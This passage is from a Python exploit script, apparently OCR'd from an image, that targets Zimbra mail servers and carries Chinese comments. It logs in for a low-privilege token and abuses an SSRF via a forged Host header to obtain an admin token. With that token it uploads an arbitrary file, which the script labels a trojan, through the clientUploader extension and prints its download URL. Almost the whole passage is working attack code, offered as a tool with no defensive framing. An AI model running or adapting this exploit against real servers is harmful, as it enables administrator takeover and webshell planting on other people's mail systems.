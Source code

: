     auth_body="""<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
       <soap:Header>
           <context xmlns="urn:zimbra">
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851.RHEL5_64"/>
           </context>
       </soap:Header>
       <soap:Body>
         <AuthRequest xmlns="{xmlns}">
            <account by="adminName">{username}</account>
            <password>{password}</password>
         </AuthRequest>
       </soap:Body>
    </soap:Envelope>
    """

    #print("[*] Get Low Privilege Auth Token")

    #72行路径可能为/service/soap
    r=requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAccount",username=username,password=password),verify=False)

    pattern_auth_token=re.compile(r"<authToken>(.*?)</authToken>")

    low_priv_token = pattern_auth_token.findall(r.text)[0]

    #print(low_priv_token)

    # SSRF+Get Admin_Token Stage

    headers["Cookie"]="ZM_ADMIN_AUTH_TOKEN="+low_priv_token+";"
    headers["Host"]="foo:7071"
    #print("[*] Get Admin  Auth Token By SSRF")
    #r = requests.post(base_url+"/service/proxy?target=https://127.0.0.1:7071/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
    r = requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
    #若86行无法使用请使用85行

    admin_token =pattern_auth_token.findall(r.text)[0]
    #print("ADMIN_TOKEN:"+admin_token)

    f = {
        'filename1':(None,"whocare",None),
        'clientFile':(filename,fileContent,"text/plain"),
        'requestId':(None,"12",None),
    }

    headers ={
        "Cookie":"ZM_ADMIN_AUTH_TOKEN="+admin_token
    }
    print("[*] 木马地址")
    r = requests.post(base_url+"/service/extension/clientUploader/upload",files=f,headers=headers,verify=False)
    #print(r.text)
    print(base_url+"/downloads/"+filename)
